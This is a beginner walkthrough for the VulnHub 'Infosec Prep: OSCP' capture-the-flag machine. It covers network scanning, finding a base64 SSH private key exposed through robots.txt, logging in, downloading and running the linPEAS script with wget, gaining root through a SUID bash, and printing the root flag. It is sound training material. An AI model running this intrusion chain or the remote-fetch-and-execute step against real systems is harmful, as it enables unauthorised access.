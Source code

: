 # Infosec Prep: OSCP

## Introduction

Name : Infosec Prep: OSCP

Link : [Infosec Prep](https://vulnhub.com/entry/infosec-prep-oscp,508/)

- This CTF is the perfect choice for beginners, as it offers an exciting opportunity to sharpen your enumeration skills and master basic Linux privilege escalation techniques.
- Designed by the talented Falcon Spy, with the support of Infosec Prep Discord server staff, this machine promises an exhilarating experience. 
- Get ready to embark on a thrilling cybersecurity journey as we delve into the intricacies of this machine.



## Step 1: Discovering the IP and Network Status

Our first mission is to discover the target machine's IP and check if it's on the network. Execute the following command to accomplish this:

```
netdiscover -r 192.168.0.0/16
```

![Netdiscover](Img/1_Netdiscover.png)

In my case, the IP is `192.168.141.133`; however, yours might be different.

## Step 2: Nmap Scan - Unraveling Open Ports

Now, let's unleash the power of Nmap to scan the target machine and identify open ports. Execute the following command:
```
nmap -A -o -v -T4 192.168.141.133
```

Nmap scan result revealing open ports 80 and 22.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.4.2

```

Indicating a web server and an accessible SSH service.

## Step 3: Web Server Enumeration

Excitement intensifies as we explore the open port 80 - a web server! By typing the IP in the browser, behold the WordPress services running.

![Webpage](Img/2_Browser_main_page.png)

Now, we shall use the mighty dirb tool to discover the website's available directories:

```
dirb http://192.168.141.133/
```

![Dirb](Img/3_Dirb.png)

Here we see `robots.txt` available so visit it on the browser.

![Robots_txt](Img/4_robots_txt.png)

## Step 4: Decoding Hidden Secrets

The `robots.txt` file reveals a mysterious secret text file with encoded hash codes. 

![Secret_txt](Img/5_Secret_txt.png)

After some research, we found that these codes are in Base64 encoding, it might be OpenSSH private key. We save this hash in a file called `secret.txt`.

![Save_Secret_txt](Img/6_Save_secret_txt.png)

To convert this hash into an OpenSSH private key, decode it using the command:

```bash
cat secret.txt | base64 -d > id_rsa
```

Next, give `600` permissions to the private key file, this permission required to use file in ssh:

```bash
chmod 600 id_rsa
```

We also noticed that the webpage shows a single user named `oscp`.

![Only_User](Img/7_oscp_user.png)

## Step 5: Logging in as `oscp` User

Now, we can log in to the `oscp` user account using the private key, use this command to login:

```bash
ssh -i id_rsa oscp@192.168.141.133
```

![Login_ssh](Img/8_Login_SSH.png)

Using the `id` command, we confirm that we have the `oscp` user ID and this account also has sudo permissions.

![Id_user](Img/9_Id_User.png)

## Step 6: Privilege Escalation - linPEAS

There is a bash script called [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) used to find vulnerable files that can help us gain root access. We can run the bash script only in the tmp folder, so navigate to the tmp folder using:

```bash
cd ../../tmp/
```

Download the bash script using wget in tmp folder using:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Give executable permission to run the file:

```bash
chmod +x linpeas.sh
```

Now, run the script:

```bash
./linpeas.sh
```

Wait until the script execution completes. 

![Linpeas_result](Img/10_Linpeas.png)

In the result, we find that the file `/usr/bin/bash` is open and has root access, indicating a potential privilege escalation.

## Step 7: Escalating to Root

Use the following command to gain root access to the vulnerable file:

```bash
/usr/bin/bash -p
```

Or you can also use command:

```bash
bash -p
```

![Bash_-p](Img/11_Bash_-p_root.png)

Now, we have the root user ID.

## Step 8: Finding the Flag

Navigate to the root folder:

```bash
cd ../root/
```

View the content of the `flag.txt` file to retrieve the root flag:

```bash
cat flag.txt
```

![Flag](Img/12_Root_Flag.png)

The `flag.txt` contains the flag: 

```
d73b04b0e696b0945283defa3eee4538
```

